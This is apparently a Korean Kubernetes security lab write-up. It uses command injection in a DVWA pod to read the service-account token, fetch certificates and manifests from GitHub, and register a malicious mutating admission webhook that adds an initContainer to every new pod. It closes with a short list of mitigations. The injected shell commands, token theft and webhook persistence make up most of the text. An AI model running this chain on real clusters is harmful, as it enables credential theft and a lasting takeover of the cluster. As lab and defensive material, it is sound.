




# 개요
* admission controller을 사용하여 악성코드 pod를 생성

# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```



2. pod(정확한 표현은 serviceAccount)의 namespace 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/namespace
```



3. serviceAcount token 권한 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dvwa"}}' https://kubernetes.default.svc.cluster.local/apis/authorization.k8s.io/v1/selfsubjectrulesreviews; }
```



4. user id 확인

```sh
127.0.0.1 -c 1 && id
```

5. sudo 명령어 실행이 가능한지 확인

```sh
127.0.0.1 -c 1 && sudo id
```


5. 운영체제 확인

```sh
127.0.0.1 -c 1 && cat /etc/os-release
```




6. wget 설치

```sh
127.0.0.1 -c 1 && sudo apt update && echo done && sudo apt install wget
```


7. admission controller webhook 인증서 다운로드

* ca.key, ca.crt 다운로드

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/certs/ca.crt && cat ca.crt
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/certs/ca.key && cat ca.key
```

* secret 생성

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -X POST -d '{"apiVersion":"v1","kind":"Secret","metadata":{"name":"webhook-certs","namespace":"default"},"data":{"tls.crt":"'"$(cat ca.crt | base64 | tr -d '\n')"'","tls.key":"'"$(cat ca.key | base64 | tr -d '\n')"'"},"type":"kubernetes.io/tls"}' https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/secrets; }
```

* admission controller pod 생성

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/admission-controller-deployment.yaml && cat admission-controller-deployment.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @admission-controller-deployment.yaml https://kubernetes.default.svc.cluster.local/apis/apps/v1/namespaces/default/deployments; }
```

* admission controler service 생성

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/admission-controller-service.yaml && cat admission-controller-service.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @admission-controller-service.yaml https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/services; }
```

* mutate webook 배포

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/mutate-webhook.yaml && cat mutate-webhook.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @mutate-webhook.yaml https://kubernetes.default.svc.cluster.local/apis/admissionregistration.k8s.io/v1/mutatingwebhookconfigurations; }
```

* 이제 공격자는 pod를 배포할 때마다 악성 initContainer가 생성됩니다. kubectl로 nginx pod를 생성해보세요

```sh
$ kubectl run --image=nginx -n default nginx-test
$ kubectl describe pod nginx-test -n default | grep "Init Container" -A 5
Init Containers:
  busybox-by-mutatehandler:
    Container ID:   containerd://3e244fbe4e0311f797388939705dbb1687c423f1953e02bea2cca987bb46ffb4
    Image:          busybox
    Image ID:       docker.io/library/busybox@sha256:9ae97d36d26566ff84e8893c64a6dc4fe8ca6d1144bf5b87b2b85a32def253c7
    Port:           <none>
```

# 보안조치
* sudo 권한 제거
* [role](./manifests/dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./manifests/dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장(써드파티 사용, 예: vault)
